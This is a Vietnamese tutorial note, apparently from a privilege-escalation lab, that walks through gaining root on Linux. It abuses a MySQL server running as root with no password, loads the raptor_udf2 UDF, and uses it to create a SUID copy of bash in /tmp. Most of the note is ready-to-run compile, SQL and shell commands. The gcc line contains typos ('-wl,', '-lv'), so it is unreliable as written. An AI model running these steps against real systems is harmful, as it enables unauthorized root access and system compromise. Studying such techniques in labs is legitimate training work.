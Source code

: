 # Các cách tân công leo thang đặc quyền (Privilege Escalation)
---------------
## Service Exploits (Khai thác dịch vụ
* MySQL server đang chạy với quyền root nhưng root user lại không được cấp pass. Ta có thể khai thác User Defined Functions (UDFs) để chạy command với quyền root thông qua MySQL
  - Đầu tiên ta cd đến folder của MySQL UDFs: ```cd /home/<username>/tools/mysql-udf```
  - Thực thi code xâm nhập raptor_udf2.c:

        gcc -g -c raptor_udf2.c -fPIC
        gcc -g -shared -wl, -soname, raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lv
  - Kết nối tới MySQL với quyền root (mật khẩu rỗng):
 
        mysql -u root
  - Thực thi những câu lệnh sau để MySQL shell để tạo một UDFs:
 
        use mysql;
        create table foo(line blob);
        insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
        select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
        create function do_system returns integer soname 'raptor_udf2.so';
  - Dùng hàm để copy /bin/bash với /tmp/rootbash và cấp quyền SUID

        select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
  - Thoát shell MySQL (dùng ```exit``` hoặc ```\q```) và chạy lệnh với option ```-p``` để chạy shell với đặc quyền root

        /tmp/rootbash -p
  - Nhớ xoá ```/tmp/rootbash``` và thoát khỏi root shell trước khi tiếp tục

        rm /tmp/rootbash
        exit
    
